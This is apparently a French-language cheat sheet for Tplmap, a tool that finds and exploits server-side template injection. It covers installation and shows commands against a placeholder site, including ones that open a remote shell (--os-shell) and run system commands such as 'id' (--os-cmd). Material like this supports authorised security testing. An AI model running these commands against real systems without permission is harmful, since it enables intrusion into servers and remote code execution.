 # Cheat Sheet Tplmap

Tplmap (Template Mapper) est un outil qui permet de détecter et d'exploiter des injections de code dans des templates de serveur. Il supporte une multitude de moteurs de templates, permettant de tester des applications web contre des vulnérabilités de template injection.

## Installation
Clonez le dépôt GitHub et installez les dépendances :
```
git clone https://github.com/epinna/tplmap.git
cd tplmap
pip install -r requirements.txt
```

## Utilisation de base
Pour utiliser Tplmap, vous pouvez passer l'URL cible avec le paramètre de test comme argument. Tplmap tentera de détecter automatiquement la présence de vulnérabilités de template injection.

```
python tplmap.py -u 'http://www.exemple.com/page?name=Test'
```

## Options communes
- `-u`, `--url` : URL cible.
- `--data` : Données POST à envoyer lors de l'envoi de requêtes.
- `-d`, `--detect` : Force la détection du moteur de template sans tester l'injection de code.
- `-os-shell` : Tente d'obtenir une shell sur le système distant.
- `-os-cmd` : Exécute une commande système à distance.

## Exemples d'exploitation
- Détecter le moteur de template sans exécuter de commande :
  ```
  python tplmap.py --detect -u 'http://www.exemple.com/page?search=Test'
  ```
- Obtenir une shell sur le système distant :
  ```
  python tplmap.py --os-shell -u 'http://www.exemple.com/page?search=Test'
  ```
- Exécuter une commande spécifique sur le système distant :
  ```
  python tplmap.py --os-cmd 'id' -u 'http://www.exemple.com/page?search=Test'
  ```

## Moteurs de templates supportés
Tplmap est capable de détecter et d'exploiter plusieurs moteurs de templates, incluant mais non limité à :
- Jinja2
- Smarty
- Twig
- Freemarker
- Velocity

## Sécurité et éthique
- Utilisez Tplmap pour auditer et améliorer la sécurité de vos propres applications ou avec l'autorisation explicite du propriétaire du site.
- Ne l'utilisez pas pour des activités malveillantes.

Pour plus de détails et des cas d'utilisation avancés, consultez la documentation officielle et le dépôt GitHub de Tplmap.

